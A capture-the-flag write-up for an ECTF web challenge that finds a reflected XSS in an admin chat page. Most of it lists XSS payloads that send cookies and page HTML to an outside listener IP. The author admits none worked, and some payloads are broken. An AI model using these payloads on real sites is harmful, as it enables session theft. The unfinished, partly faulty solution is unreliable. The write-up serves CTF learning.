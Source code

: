 ### **Challenge Name**: Chat with the Admin

---

### **Description**:

The admin has provided a chat where you can ask him questions.  
He is not very active but regularly checks this page.  
It seems that the flag is present on his interface, maybe you could retrieve it. 😉

Deploy the instance here to play: [https://instances.ectf.fr](https://instances.ectf.fr)  
**Flag format**: `ECTF{....}`

**Instance**:  
[Instance](http://instances.ectf.fr:25697/)

---

### **Solution**:

Opening the website reveals an admin chat box. When we enter a message, there's no response, but our message gets reflected back. This suggests that the input might not be sanitized, which could indicate a Reflected XSS vulnerability.

Let's test with a simple payload:  
`<script>alert(1);</script>`

And indeed, the alert pops up!

![Stored XSS](Resources/image1.png)

Now that we know the input is reflected and possibly vulnerable, we can try to enumerate the system. Our first step is to check if we can find the flag path or any useful information.

We start by inspecting cookies:
```plaintext
DO_NOT_EDIT=5794fb77c3b92bb505a017ec1dbb6df849f891bb847285ef4fb7def7a9c2996f; id_value=7xrjxj5zv0a6urax; username=Dave
```

Next, we try using various XSS payloads to steal cookies and gather more data:

```html
<script>document.location='http://192.168.228.129:4444?cookie='+document.cookie</script>
```

```html
<img src="http://192.168.228.129/bogus.php" onerror="console.log(document.cookie);">
```

```html
<script src="http://192.168.228.129/bogus.php"">console.log(document.cookie);</script>
```

```html
<img src="http://192.168.228.129:4444/bogus.php" onerror="fetch('http://192.168.228.129:4444/steal', {method: 'POST', body: JSON.stringify({cookie: document.cookie}), headers: {'Content-Type': 'application/json'}})">
```

```html
<script>
fetch('http://192.168.228.129:8000/cookie.txt', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        pageContent: document.documentElement.innerHTML, 
        cookies: document.cookie
    })
});
</script>
```

```html
<script>var i=new Image; i.src="http://192.168.228.129:8080/?"+document.cookie;</script>
```

```html
<script>var i=new Image(); i.src="https://192.168.228.129:8000/?cookie="+btoa(document.cookie);</script>
```

```html
<script>fetch('http://192.168.228.129:8000/?cookie=' + btoa(document.cookie));</script>
```

```html
<script>
fetch('http://192.168.228.129:8000/', {
    method: 'POST',
    mode: 'no-cors',
    body: document.documentElement.outerHTML
});
</script>
```

```html
<script>
await fetch('http://192.168.228.129:8000/page_data', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(allResources),
    headers: {
        'Content-Type': 'application/json'
    }
});
</script>
```

```html
<script>
fetch('http://192.168.228.129:8000/page_data', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        pageContent: document.documentElement.innerHTML,
        location: window.location.href
    })
});
</script>
```

```html
<script>var i=new Image;i.src="http://192.168.228.129:8000/?"+document.cookie;</script>
```

Finally, after trying several payloads, one of them should retrieve the flag, but for some reason, it didn’t work for me in the duration of the CTF...

```html
<img onerror='fetch("IP_ADDRESS?cookie="+JSON.stringify(document.cookie))' src="image.png">
```

---

### **Flag**:

After successfully retrieving the correct cookie or data, the flag format is:  
`ECTF{....}`

---